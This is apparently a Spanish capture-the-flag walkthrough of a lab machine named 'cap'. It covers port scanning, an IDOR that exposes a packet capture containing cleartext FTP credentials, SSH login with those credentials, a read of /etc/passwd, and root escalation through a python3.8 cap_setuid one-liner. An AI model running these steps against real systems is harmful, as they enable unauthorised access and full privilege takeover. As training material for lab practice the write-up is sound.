








## Reconocimiento

Realizamos un ping para verificar que tenemos trazabilidad con la máquina, además, podemos observar el valor del `ttl` para determinar el posible sistema operativo al que nos estamos enfrentando, aunque esto no lo confirma definitivamente:

```bash
ping -c 1 10.129.25.96 > enum/ping.txt

PING 10.129.25.96 (10.129.25.96) 56(84) bytes of data.
64 bytes from 10.129.25.96: icmp_seq=1 ttl=63 time=50.8 ms

--- 10.129.25.96 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 50.828/50.828/50.828/0.000 ms
```

### Enumeración de puertos

Ahora procedemos a realizar un escaeno de puertos, tanto UDP como TCP, para ello usaremos `nmap` realizando un `SYN-Scan` e indicando el parámetro `-p-` para enumerar todo el rango de puertos:

```bash
sudo nmap -sS -p- -T5 10.129.25.96 --open -Pn -oN enum/all_ports.txt -oG enum/all_ports.grep

# Nmap 7.95 scan initiated Tue Apr  8 12:19:12 2025 as: /usr/lib/nmap/nmap -sS -p- -T5 --open -Pn -oN enum/all_ports.txt -oG enum/all_ports.grep 10.129.25.96
Nmap scan report for 10.129.25.96
Host is up (0.13s latency).
Not shown: 62684 closed tcp ports (reset), 2848 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

# Nmap done at Tue Apr  8 12:19:30 2025 -- 1 IP address (1 host up) scanned in 18.24 seconds
```

Como mencionamos anteriormente, también realizaremos un escaeno de los puertos UDP usando `nmap` indicando el parámetro `-sU`:

```bash
sudo nmap -sU -T5 10.129.25.96 --open -Pn -oN enum/nmap_udp_ports.txt

# Nmap 7.95 scan initiated Tue Apr  8 12:19:18 2025 as: /usr/lib/nmap/nmap -sU -T5 --open -Pn -oN enum/nmap_udp_ports.txt 10.129.25.96
Warning: 10.129.25.96 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.25.96
Host is up (0.051s latency).
All 1000 scanned ports on 10.129.25.96 are in ignored states.
Not shown: 914 open|filtered udp ports (no-response), 86 closed udp ports (port-unreach)

# Nmap done at Tue Apr  8 12:20:42 2025 -- 1 IP address (1 host up) scanned in 84.25 seconds
```

### Enumeración de Servicios

Ahora que ya conocemos los puertos que están abiertos en la máquina, procederemos a enumerar que servicios están corriendo en dichos puertos, para ello, utilizaremos `nmap` con el parámetro `-sCV` para enumerar la versión de los servicios y a su vez, utilizar algunos scripts básicos de reconocimiento:

```bash
sudo nmap -sCV -p21,22,80 -A 10.129.25.96 -Pn -oN enum/all_services.txt

# Nmap 7.95 scan initiated Tue Apr  8 12:19:44 2025 as: /usr/lib/nmap/nmap -sCV -p21,22,80 -A -Pn -oN enum/all_services.txt 10.129.25.96
Nmap scan report for 10.129.25.96
Host is up (0.050s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.19 (97%), Linux 5.0 (97%), Linux 5.0 - 5.14 (97%), Linux 2.6.32 - 3.13 (93%), Linux 3.2 - 4.14 (93%), Linux 4.15 (93%), Linux 2.6.32 - 3.10 (93%), OpenWrt 21.02 (Linux 5.4) (92%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (92%), Linux 2.6.32 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   50.59 ms 10.10.14.1
2   50.78 ms 10.129.25.96

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr  8 12:20:00 2025 -- 1 IP address (1 host up) scanned in 15.85 seconds
```

Como podemos observar, vemos que en la máquina hay un servidor `FTP` con versión `vsftpd 3.0.3` en el puerto `21/tcp`, un servidor `SSH` con versión `OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)` en el puerto `22/tcp` y un servidor `Web` en el que, según su fingerprint, vemos que se llama `Gunicorn` en el puerto `80/tcp`.

Ahora lo que tendremos que hacer será revisar dichos servicios y recopilar información para poder encontrar algún vector de ataque que nos permita obtener acceso a ejecución de comandos o acceso a algún usuario.

El orden que seguiremos será empezar por el servidor `FTP` del puerto `21/tcp`, luego revisaremos el servidor `Web` del puerto `80/tcp` y en caso de no haber encontrado nada, revisaremos el servicio `SSH` del puerto `22/tcp`.

#### 21/tcp - FTP

Como no tenemos credenciales de ningún usuario, probaremos a acceder al servicio con el usuario `anonymous` e intentar revisar si hay algún fichero expuesto con algún tipo de información útil o credenciales que nos permitan acceder a algún sitio de la máquina:

```bash
ftp -A anonymous@10.129.25.96

Connected to 10.129.25.96.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
ftp>
ftp> exit
221 Goodbye.
```

Como podemos observar, parece que no tenemos acceso con el usuario `anonymous`, por ello, procedemos a enumerar el servidor `Web`.

#### 80/tcp - HTTP

Accedemos a la web desde el navegador y nos encontramos con lo que parece algún tipo de panel de administración que no necesita ningún tipo de credenciales para acceder:


Revisamos que nos aparece en la extensión de Wappalyzer, para ver que tecnologías detecta en la web:


También podemos revisar las tecnologías utilizadas en la web con `whatweb`:

```bash
whatweb 10.129.25.96 -v --colour never > enum/whatweb.txt

WhatWeb report for http://10.129.25.96
Status    : 200 OK
Title     : Security Dashboard
IP        : 10.129.25.96
Country   : RESERVED, ZZ

Summary   : Bootstrap, HTML5, HTTPServer[gunicorn], JQuery[2.2.4], Modernizr[2.8.3.min], Script, X-UA-Compatible[ie=edge]

Detected Plugins:
[ Bootstrap ]
	Bootstrap is an open source toolkit for developing with 
	HTML, CSS, and JS. 

	Website     : https://getbootstrap.com/

[ HTML5 ]
	HTML version 5, detected by the doctype declaration 


[ HTTPServer ]
	HTTP server header string. This plugin also attempts to 
	identify the operating system from the server header. 

	String       : gunicorn (from server string)

[ JQuery ]
	A fast, concise, JavaScript that simplifies how to traverse 
	HTML documents, handle events, perform animations, and add 
	AJAX. 

	Version      : 2.2.4
	Website     : http://jquery.com/

[ Modernizr ]
	Modernizr adds classes to the <html> element which allow 
	you to target specific browser functionality in your 
	stylesheet. You don't actually need to write any Javascript 
	to use it. [JavaScript] 

	Version      : 2.8.3.min
	Website     : http://www.modernizr.com/

[ Script ]
	This plugin detects instances of script HTML elements and 
	returns the script language/type. 


[ X-UA-Compatible ]
	This plugin retrieves the X-UA-Compatible value from the 
	HTTP header and meta http-equiv tag. - More Info: 
	http://msdn.microsoft.com/en-us/library/cc817574.aspx 

	String       : ie=edge

HTTP Headers:
	HTTP/1.1 200 OK
	Server: gunicorn
	Date: Tue, 08 Apr 2025 10:22:06 GMT
	Connection: close
	Content-Type: text/html; charset=utf-8
	Content-Length: 19386
```

De momento, hemos encontrado la versión de algunas librerías que utiliza la web, pero no hemos encontrado nada que podamos utilizar para poder acceder al sistema, por lo que podríamos intentar revisar los ficheros `robots.txt` y `sitemap.xml`:

```bash
curl http://10.129.25.96/robots.txt -o enum/robots.txt

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

```bash
curl http://10.129.25.96/sitemap.xml -o enum/sitemap.xml

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

Parece que no hemos tenido éxito con estos ficheros, vamos a intentar navegar por la web para revisar las funcionalidades que tiene, accedemos al apartado llamado `Security Snapshot (5 Second PCAP + Analysis)`:


Tras acceder, esperamos cinco segundos y vemos que nos lleva a una página donde podemos ver lo que parecen un contador de los paquetes que ha recibido el servidor durante el transcurso de los cinco segundos, y también podemos ver que nos permite descargar la captura.

Observamos que en la URL aparece `10.129.25.96/data/1`, lo cual podría ser vulnerable a un `IDOR`, por lo que probaremos a indicar el valor `0` para ver si podemos acceder a otra captura que se haya realizado anteriormente:



Accedemos a la siguiente URL `http://10.129.25.96/data/0` y vemos que nos aparecen los datos de una captura realizada anteriormente, por lo que procedemos a descargarla para analizarla con `Wireshark`:



Abrimos la captura con `Wireshark` y tras revisar los paquetes, podemos observar que en los paquetes `36` y `40` aparece en texto claro lo que parecen unas credenciales de acceso al servicio `FTP`:



Ya tenemos unas posibles credenciales de acceso, por lo que ahora lo que haremos será intentar acceder a los diferentes servicios que tiene la máquina utilizando estas credenciales:

```bash
nathan:Buck3tH4TF0RM3!
```

## Explotación - Acceso inicial

Sabemos que en la máquina hay dos servicios en los cuales podemos usar las credenciales que hemos obtenido, uno de ellos es el servicio `FTP` del puerto `21/tcp` y el otro sería el servicio `SSH` del puerto `22/tcp`. Probaremos el acceso siguiendo este mismo orden.

Accedemos con el cliente de `ftp` usando las credenciales y vemos que accedemos perfectamente:

```bash
ftp -A nathan@10.129.25.96

Connected to 10.129.25.96.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Probamos también a acceder a la máquina por `SSH` usando las credenciales y vemos que accedemos a la terminal sin problemas:

```bash
ssh nathan@10.129.25.96
```



## Escalada de Privilegios

Una vez conseguimos acceso a la terminal, lo siguiente sería intentar escalar privilegios al usuario `root` o intentar movernos lateralmente a algún otro usuario que tenga más permisos que el usuario actual o tenga acceso a información que nos pueda ser de utilidad.

### Enumeración del sistema

Lo primero que haremos será enumerar los usuarios del sistema y para ello, lo que haremos será leer el fichero `/etc/passwd` con `cat`:

```bash
nathan@cap:~$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
nathan:x:1001:1001::/home/nathan:/bin/bash
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

Vemos que existen muchos usuarios, aunque muchos son creados por defecto en `Linux`, si quisiéramos filtrarlos un poco, podríamos intentar filtrar por los usuarios que tienen configurado `/bin/bash` como `shell` predeterminada:

```bash
nathan@cap:~$ cat /etc/passwd | grep "/bin/bash"

root:x:0:0:root:/root:/bin/bash
nathan:x:1001:1001::/home/nathan:/bin/bash
```

En principio, podríamos decir que solo existen el usuario `root` y el usaurio `nathan` con acceso a terminal.

Tras continuar con la enumeración del sistema, podríamos intentar comprobar los grupos a los que pertenece el usuario `nathan`, para ello, utilizaremos el comando `id`:

```bash
id

uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

Vemos que no pertenece a ningún grupo especial, por lo que a continuación revisaremos si tiene algún permiso de `sudo`:

```bash
sudo -l

Sorry, user nathan may not run sudo on cap.
```

Vemos que el usuario `nathan` tampoco tiene permisos de `sudo`.

Podemos intentar revisar si tenemos algún tipo de permiso especial sobre algún fichero o binario, para ello enumeraremos las `capabilities` que tienen todos los ficheros del sistema a los que tenemos acceso con el binario `getcap`:

```bash
/usr/sbin/getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Observamos que el binario `/usr/bin/python3.8` tiene la `capabilitie` de `cap_setuid`, por lo que podríamos intentar explotarlo para escalar privilegios, para ello, buscamos el binario de `python` en [GTFObins](https://gtfobins.github.io/gtfobins/python/#capabilities) y vemos que podemos escalar privilegios:



Adaptamos el comando para ejecutar el binario `/usr/bin/python3.8` y vemos que conseguimos acceder como `root`:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```


